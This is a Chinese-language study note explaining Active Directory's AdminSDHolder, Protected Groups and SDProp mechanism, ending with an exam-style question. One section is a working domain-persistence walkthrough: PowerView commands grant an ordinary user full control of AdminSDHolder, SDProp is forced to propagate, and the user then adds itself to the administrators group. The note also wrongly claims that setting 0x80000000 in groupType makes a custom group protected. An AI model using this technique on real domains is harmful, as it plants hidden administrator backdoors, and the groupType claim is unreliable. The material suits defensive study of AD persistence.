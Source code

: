 活动目录使用AdminSDHolder，Protected Groups和Security Descriptor Propagator来保护特权用户和特权组不被恶意的修改或者滥用。

# 一、**Protected Groups（受保护组）**
+ Active Directory 默认将一组关键的内置组（如 Domain Admins、Enterprise Admins、Schema Admins、Administrators 等）标记为“受保护组”。
+ 这些组中的所有成员都会自动被纳入受保护对象的范围，确保它们无法被普通权限下的用户随意修改或移除。
+ 同时，管理员也可以通过向 groupType 属性添加 `0x80000000`（ADS_GROUP_TYPE_RESOURCE_GROUP | ADS_GROUP_TYPE_SECURITY_ENABLED | ADS_GROUP_TYPE_UNIVERSAL ）或其他标志，手动将自定义组标记为受保护组。

# 二、**AdminSDHolder 容器及其安全描述符**
+ 在每个域的“System”容器下有一个名为 **AdminSDHolder** 的特殊对象，它存放了所有受保护帐户和组的“母版”安全描述符（Security Descriptor）。
+ 该安全描述符定义了允许谁对这些对象执行哪些操作（如读取、写入、删除）。
+ 管理员可以手动修改 AdminSDHolder 的 ACL，以调整受保护对象的权限模型，一旦修改，后续的传播过程会将新的权限应用到所有受保护对象上。

# 三、**Security Descriptor Propagator (SDProp) 机制**
+ **SDProp** 是运行在域控制器上的后台任务（LsaSrv 服务的一部分），默认每 60 分钟执行一次。
+ 每次运行时，SDProp 会读取 AdminSDHolder 的安全描述符，并将其与所有受保护对象（即所有受保护组和其成员所对应的 user/computer 对象）当前的安全描述符进行比对。
+ 对比后，SDProp 会覆盖所有差异，使这些对象的 ACL 恒定与 AdminSDHolder 保持一致，防止权限被恶意或意外更改。

# 四、利用AdminSDHoler实现权限维持
域管：sec\administrator

域普通用户：sec\hack

由于hack用户是普通域用户，无权添加用户或者修改域管组用户

现在我们获得了域管权限，进行如下操作：

修改AdminSDHolder对象的ACL配置，使得域用户hack对其有完全控制的权限。可以使用Empire下的powerview.ps1脚本进行如下修改。

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```plain
PS C:\Users\Administrator.SEC\Downloads> Import-Module .\powerview.ps1
PS C:\Users\Administrator.SEC\Downloads> Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=sec,DC=local
" -PrincipalIdentity hack -Rights All -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=hack)(name=hack)(displayname=hack))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=SEC,DC=LOCAL
VERBOSE: [Get-DomainObject] Extracted domain 'sec.local' from 'CN=AdminSDHolder,CN=System,DC=sec,DC=local'
VERBOSE: [Get-DomainSearcher] search base: LDAP://WIN2016-DC2.SEC.LOCAL/DC=sec,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(distinguishedname=CN=AdminSDHolder,CN=System,DC=sec,DC=local)))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local 'All' on
CN=AdminSDHolder,CN=System,DC=sec,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=hack,CN=Users,DC=sec,DC=local rights GUID
'00000000-0000-0000-0000-000000000000' on CN=AdminSDHolder,CN=System,DC=sec,DC=local
PS C:\Users\Administrator.SEC\Downloads>
```

等待SDProp进程运行，或者手动使用Invoke-ADSDPropagation.ps1脚本手动触发同步。

```plain
PS C:\Users\Administrator.SEC\Downloads> Import-Module .\Invoke-ADSDPropagation.ps1
PS C:\Users\Administrator.SEC\Downloads> Invoke-ADSDPropagation -TaskName runProtectAdminGroupsTask
PS C:\Users\Administrator.SEC\Downloads>
```

测试

```plain
C:\Users\hack>net localgroup administrators hack /add /domain
The request will be processed at a domain controller for domain sec.local.

The command completed successfully.

C:\Users\hack>
```

# 五、例题
可能存在的考题：为什么administrator不能被普通用户修改的真正原因？

1. **AdminCount 标志位**
+ 所有属于“受保护组”（Protected Groups，如 Domain Admins、Enterprise Admins 等）的成员，其 user 或 computer 对象都会被系统自动在属性 `adminCount` 上打上值 `1`。
+ 这个标志告诉系统：此对象要接受特殊的安全描述符保护。
2. **AdminSDHolder 安全描述符模板**
+ 在每个域的 System 容器下，有一个名为 **AdminSDHolder** 的对象，它承载了“受保护对象”的母版安全描述符（ACL）。
+ 这个 ACL 中只授予高权限主体（如 Domain Admins、Enterprise Admins、SYSTEM 等）修改权限，普通用户和 Authenticated Users 通常不在允许列表中。
3. **Security Descriptor Propagator (SDProp) 周期性同步**
+ 域控制器上的 SDProp 后台进程（LsaSrv 服务的一部分）默认每 60 分钟运行一次。
+ 每次运行时，SDProp 会扫描所有 `adminCount=1` 的对象，将它们的 ACL 强制替换为 AdminSDHolder 上定义的模板。
+ 即使有人临时给 Administrator 对象添加了写权限，也会在下一个周期被撤销，恢复到受保护的状态。
    -
+ **标志（adminCount）→ 模板（AdminSDHolder）→ 同步（SDProp）** 这三步构成了对特权账户和组的 “自我修复” 保护机制。
+ 普通用户即使有意或无意地修改 Administrator 对象的权限，也会因为 ACL 本身不允许写操作，或在 SDProp 周期到来时被自动还原，从而无法对其生效。
